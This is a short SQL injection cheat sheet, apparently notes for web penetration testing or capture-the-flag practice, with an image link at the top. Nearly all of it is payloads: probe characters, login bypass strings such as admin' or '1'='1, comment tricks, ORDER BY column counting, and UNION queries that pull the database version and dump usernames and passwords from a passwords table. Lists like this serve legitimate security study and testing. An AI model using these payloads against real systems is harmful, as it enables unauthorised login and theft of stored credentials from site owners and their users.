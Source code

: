 # Command Cheat Sheet:
## Discovery Payloads:

' (single quote)
" (double quote)
# (hash)
; (semicolon)
) (closing parenthesis)

## Authentication Bypass:

admin' or '1'='1
' or '1'='1
admin'--
admin')--

Comments:

--  (two dashes with space)
"#" (hash symbol)
--+ (URL encoded version)
%23 (URL encoded hash)

## Column Detection:

' order by 1-- -
' order by 2-- - (increment until error)
cn' UNION select 1,2,3-- -

## UNION Injection:

cn' UNION select 1,@@version,3,4-- -
1' UNION SELECT username, password from passwords-- '

